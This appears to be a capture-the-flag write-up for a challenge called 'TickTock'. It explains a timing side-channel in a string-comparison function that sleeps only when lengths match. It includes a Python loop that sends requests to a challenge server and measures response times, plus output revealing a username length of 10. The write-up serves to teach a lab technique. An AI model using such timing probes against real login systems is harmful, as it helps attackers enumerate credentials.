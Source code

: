 # TickTock Writeup

![](images/Pasted%20image%2020221206125104.png)

Given the vulnerable the vulnerable function for the TickTock application, we can see that it is likely that `comparestring()` is being used to check the username and password values.

In the `comparestring()`, we can also see in the section denoted by (1), that if the length of a is not equals the length of b, then it immediately returns. But if it matches, the program sleeps before returning.

This suggests that we make use of the time difference to infer if the length of our provided username/password matches the application's.

Let's do a sanity check. We can do so with the following code snippet
```
import requests
# For checking len of username
for i in range(0, 20):
    val = ("A" * i)
    r = requests.get(f"http://174.138.28.135:30031/flag?username={val}&password=111")
    print(i,r.elapsed.total_seconds())
```

This code essentially tries `A`, `AA` until 20 characters of `A`. And then prints out the following output containing the length and the time elasped for the response.

```
0 0.012312
1 0.010637
2 0.010555
3 0.009346
4 0.009651
5 0.010921
6 0.010992
7 0.010207
8 0.009022
9 0.009504
10 0.111399 < --- more time needed so len of username is 10.
11 0.011147
12 0.009972
13 0.009737
14 0.010169
15 0.010247
```